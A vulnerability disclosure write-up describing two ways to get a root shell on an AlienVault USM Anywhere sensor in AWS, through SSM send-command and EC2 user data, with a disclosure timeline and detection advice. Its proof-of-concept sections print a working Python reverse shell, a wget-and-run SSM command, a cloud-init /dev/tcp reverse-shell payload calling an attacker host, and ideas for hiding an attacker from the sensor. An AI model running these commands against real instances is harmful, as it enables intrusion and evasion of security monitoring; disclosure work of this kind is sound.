



# Abstract

This page discloses 2 ways to get a root shell on an [USM Anywhere sensor](https://cybersecurity.att.com/products/usm-anywhere) deployed on AWS. The first way is done through [AWS SSM](https://docs.aws.amazon.com/systems-manager/latest/userguide/ssm-agent.html), and the second one through [AWS EC2 user data](https://docs.aws.amazon.com/AWSEC2/latest/UserGuide/user-data.html). The impact is to be able to modify the USM Anywhere sensor without limitation and undetected, making further exploitation of an AWS environment silently. Findings were tested using a [free trial](https://cybersecurity.att.com/products/usm-anywhere/free-trial), with the latest available version of USM Anywhere sensor as of 2021-05-04: version 6.0.205.

Those findings were not categorized as vulnerabilities by AlienVault. AlienVault reminded that it is the customer responsibility to secure AlienVault sensor deployed in AWS by following [AWS best practices](https://docs.aws.amazon.com/systems-manager/latest/userguide/security-best-practices.html).

Those findings could be applicable while deploying USM Anywhere sensor in other cloud services.

# Discovery process

## SSM

When having to troubleshoot issues on AlienVault USM, a `sysadmin` user is provided on sensors. The customer can use SSH to connect to this `sysadmin` user and will land on a [limited shell](https://cybersecurity.att.com/documentation/usm-appliance/system-overview/unauthorized-modification.htm). That interface can be used to browse some logs with a pager that cannot execute commands, and traps signals such as `CTRL+Z` or `CTRL+C`. It has some `ping` and `dig` tools with validated input. This restricted interface provides access to `htop`, which reveals that the process `amazon-ssm-agent` is running.



From there it is easy to guess that AWS SSM can be used to run arbitrary commands. Since the sensor is probably deployed in a private VPC behind a NATgw, and not accessible from the outside, the best course of action is to leverage AWS SSM to start a reverse shell.

## EC2 user data

Sometimes the sensor can run out of storage. Most of the storage is mounted on `/data`, and when growing the EBS, then restarting the instance, the partition is grown: [cloud-init](https://cloudinit.readthedocs.io/en/latest/) is running on the instance. Cloud-init can also be used to [run a reverse shell](https://www.tenchisecurity.com/blog/ec2-user-data-for-fun-reverse-shell-and-privilege-escalation).

# Proof of Concept

## SSM

### Requirements

For this attack to succeed, the attacker needs to have AWS credentials to a user or a role that allows to:

- add policies to an IAM role
- run AWS SSM send-command

### Process
The process is to:

1. add the necessary permissions on the USM Anywhere instance role



2. wait few minutes for the SSM agent to come online. This step is optional and requires extra permissions to describe instances information.

```
$ aws ssm describe-instance-information --output text --query "InstanceInformationList[*]"
3.0.529.0	USMA-Sensor	172.31.36.0	i-[instanceID]	False	1620139052.209	Online	Ubuntu	Linux	16.04	EC2Instance
```

3. use SSM send-command to send reverse shell. For the reverse shell to work I used a python one, and distributed it from a python web server.

```
$ cat lol.py
import socket,subprocess,os;
s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);
s.connect(("1.2.3.4",4445));
os.dup2(s.fileno(),0);
os.dup2(s.fileno(),1);
os.dup2(s.fileno(),2);
p=subprocess.call(["/bin/sh","-i"]);

$ python3 -m http.server 4444
Serving HTTP on 0.0.0.0 port 4444 ...
4.5.6.7 - - [04/May/2021 22:39:48] "GET /lol.py HTTP/1.1" 200 -

$ aws ssm send-command --instance-ids "i-[instanceID]" --document-name "AWS-RunShellScript" --parameters commands="wget -O /tmp/lol.py http://1.2.3.4:4444/lol.py ; sleep 10 ; python /tmp/lol.py &" --output text
COMMAND	e78df3b7-dbb6-4808-b418-8a3f15a7c933		0	0	AWS-RunShellScript	$DEFAULT	0	1620146387.434	50	0			1620139187.434		Pending	Pending	1	3600
CLOUDWATCHOUTPUTCONFIG		False
INSTANCEIDS i-[instanceID]
NOTIFICATIONCONFIG
COMMANDS	wget -O /tmp/lol.py http://1.2.3.4:4444/lol.py ; sleep 10 ; python /tmp/lol.py &
```

4. get the reverse shell

```
$ nc -lvnp 4445
Listening on [0.0.0.0] (family 0, port 4445)
Connection from 4.5.6.7 36150 received!
/bin/sh: 0: can't access tty; job control turned off
# id
uid=0(root) gid=0(root) groups=0(root)
# ps fauxww | grep alienvault
avunima+  1619 75.9 75.8 15661756 12241920 ?   Sl   14:37   3:35 /usr/lib/jvm/jre8-hotspot/bin/java -Xms11026m -Xmx11026m -XX:+UseG1GC -XX:+AlwaysPreTouch -XX:MaxGCPauseMillis=2000 -XX:+ParallelRefProcEnabled -XX:+ExitOnOutOfMemoryError -XX:+UnlockExperimentalVMOptions -XX:G1NewSizePercent=40 -Djava.security.egd=file:/dev/./urandom -Dav.connectFile=/etc/alienvault/unimatrix/connect.json -Djava.io.tmpdir=/data/alienvault/unimatrix/tmp -Dvertx.cacheDirBase=/data/alienvault/unimatrix/tmp -Djava.net.preferIPv4Stack=true -cp /usr/share/alienvault/current/unimatrix/lib/core/*:/usr/share/alienvault/current/unimatrix/lib/* -DlogFile=/data/alienvault/log/unimatrix-console.log com.alienvault.atlas.unimatrix.UnimatrixSpringApp
root      3489  0.0  0.0  11280  1072 ?        S    14:42   0:00      \_ grep alienvault
```

## EC2 user data

### Requirements

For this attack to succeed, the attacker needs to have AWS credentials to a user or a role that allows to:

- modify user data
- stop and start an EC2 instance

### Process

The process to leverage AWS EC2 user data to get a root shell is a bit more noisy than the SSM way: we need to stop and start the sensor instance.

1. stop USM instance
2. change user data from the original json string to a reverse shell

```
Content-Type: multipart/mixed; boundary="//"
MIME-Version: 1.0

--//
Content-Type: text/cloud-config; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Content-Disposition: attachment; filename="cloud-config.txt"

#cloud-config
cloud_final_modules:
- [scripts-user, always]

--//
Content-Type: text/x-shellscript; charset="us-ascii"
MIME-Version: 1.0
Content-Transfer-Encoding: 7bit
Content-Disposition: attachment; filename="userdata.txt"

#!/bin/bash
/bin/bash -c "bash -i >& /dev/tcp/1.2.3.4/4444 0>&1"
--//
```

3. start your netcat listener on the attacker controlled server, here `1.2.3.4`

```
$ nc -lvnp 4444
```

4. start instance and get your root shell

```
$ nc -lvnp 4444
Listening on [0.0.0.0] (family 0, port 4444)
Connection from 4.5.6.7 60152 received!
bash: cannot set terminal process group (1525): Inappropriate ioctl for device
bash: no job control in this shell
# id
uid=0(root) gid=0(root) groups=0(root)
```

# Impact

This root shell can be used by an attacker to cover its traces from USM Anywhere for further exploitation. For instance:

- change suricata conf to whitelist attacker IP, and restart suricata
- change .jar files to modify sensor plugins behavior, and restart unimatrix
- modify traffic gathered through syslog using iptables + socat + script to modify traffic on the fly
- etc

This root shell can also be used to reverse engineer Alienvault sensor functionalities, or download Alienvault rules updates from its repo using SSL mutual authentication to gather further knowledge about the sensor:



# Detection

Since both ways rely on AWS APIs, specific rules can be written to detect it from CloudTrail logs, watching for SSM commands and EC2 user-data changes.

# Responsible disclosure

- [2021-01-05] emailed security mailing list and created support case, asking for point of contact
- [2021-01-05] support case acknowledged and escalated, scheduling call
- [2021-01-12] call scheduled, presented finding details, detection and mitigation ideas
- [2021-02-01] case escalated to internal AlienVault ticket
- [2021-03-01] reminder to AlienVault about the findings
- [2021-03-25] reminder to AlienVault about the findings
- [2021-04-15] call with AlienVault, exposing findings details
- [2021-04-20] AlienVault answered classifiying this finding as not being a vulnerability

Published on the 2021-05-04 by Pierre Gaulon.
